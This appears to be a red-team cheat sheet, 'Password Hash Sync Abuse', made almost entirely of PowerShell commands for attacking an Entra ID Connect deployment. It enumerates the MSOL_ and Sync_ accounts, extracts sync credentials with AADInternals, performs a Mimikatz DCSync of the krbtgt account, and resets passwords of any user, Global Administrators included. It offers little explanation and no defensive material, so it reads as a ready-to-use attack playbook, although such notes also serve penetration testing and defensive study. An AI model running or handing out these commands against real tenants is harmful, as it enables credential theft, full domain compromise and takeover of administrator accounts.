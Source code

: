 # Password Hash Sync Abuse

## Steps

#### 1) Enumerate Entra ID Installation Server (Run this On-Premises)

    Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Properties * | select SamAccountName,Description | fl

#### 2) Enumerate Entra ID Installation Server (Run this on Azure)

    Import-Module .\AzureAD.psd1
    
    Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}

#### 3) Extract credentials from the server

    Import-Module .\AADInternals.psd1

    Get-AADIntSyncCredentials

#### 4) DCSync with MSOL_* account credentials

Connect with MSOL_* account

    runas /netonly /user:<DOMAIN>\MSOL_<ID> cmd

DCSync attack

    Invoke-Mimikatz -Command '"lsadump::dcsync/user:<DOMAIN>\krbtgt /domain:<DOMAIN> /dc:<DC NAME>"'

## Reset Password of any user (Including Global Administrators)



    Import-Module .\AADInternals.psd1

    $passwd = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force

    $creds = New-Object System.Management.Automation.PSCredential ("<SYNCUSERNAME>", $passwd)

    Get-AADIntAccessTokenForAADGraph -Credentials $creds -SaveToCache

#### 6) Enumerate Global Admins

    Get-AADIntGlobalAdmins

#### 7) Get the ImmutableID

    Get-AADIntUser -UserPrincipalName <NAME> | select ImmutableId

#### 8) Reset the Azure password

    Set-AADIntUserPassword -SourceAnchor "<IMMUTABLE ID>" -Password "<PASSWORD>" -Verbose

#### 9) Reset password for Cloud-only user

    Import-Module .\AADInternals.psd1

    Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

    Set-AADIntUserPassword -CloudAnchor "<ID>" -Password "<PASSWORD>" -Verbose
